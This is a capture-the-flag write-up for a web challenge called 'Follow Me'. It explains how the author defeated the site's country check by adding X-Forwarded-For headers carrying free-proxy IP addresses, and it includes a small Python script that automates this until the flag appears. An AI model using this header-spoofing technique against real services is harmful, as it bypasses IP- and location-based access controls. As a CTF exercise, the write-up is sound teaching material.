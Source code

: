 # WEB 150 - Follow Me

This challenge is a worldmap where you have to follow a hacker in random country.

![](img/worldmap_SHA.PNG)

To change the origin country of the request, i use the mozilla firefox add-on "AnonymoX" and saw that the message "you are in the wrong country (fr)" changed by "you are in wrong country (us)". 
So i tried to send a request by adding the header "X-Forwarded-For" and the ip address of a free proxy in the pays where the hacker is.
And thats worked !

So i wrote a python script that take 3 commands in input :
  - country : print the country where the hacker is and the number of country to before finding him
  - mv <*@ip_proxy*> : Add the "X-Forwarded-For" header with the IP specified.
  - restart : Some country don't have free proxy available
  
````python

import requests

def parse_pays(page):
	page = page.split("\n")
	to_print = ""
	for l in page:
		if '<div class="row"><div class="box" style=' in l:	
			to_print = l.split("<span>")[1]
			to_print = to_print.split('</span>')[0]
			print("You have to visit : %s " % (to_print))

def parse_visited(page):
	page = page.split("\n")
	for l in page:
		if 'Visited' in l:
			print(l)
			return l

def parse_flag(page):
	page = page.split("\n")
	for l in page:
		if 'flag' in l:
			print(l)

def parse_iswrong(page):
	page = page.split('\n')
	for l in page:
		if 'You are in the wrong country' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)
def parse_newcountry(page):
	page = page.split("\n")
	for l in page:
		if 'You just missed the hacker, he moved to' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)

cmd = ""
s = requests.Session()
url = "https://followme.stillhackinganyway.nl/"
r = s.get(url)
while cmd != "q":
	cmd = raw_input("$SHA: ")
	if cmd == "country":
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)	
	if "mv" in cmd:
		ip = cmd.split(" ")[1]	
		header = { 'X-Forwarded-For': '%s' % (ip)}
		r = s.get(url, headers=header)
		parse_newcountry(r.text)
		nb = parse_visited(r.text)
		if "12/12" in nb:
			parse_flag(r.text)
	if cmd == "restart":
		r = s.get("https://followme.stillhackinganyway.nl?restart=1")
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)
	
```

Then i was able to send request to the site from any country in the world where a free proxy is available.
Below the screenshot of the script running : 

 ![](img/writeupSHA.png)
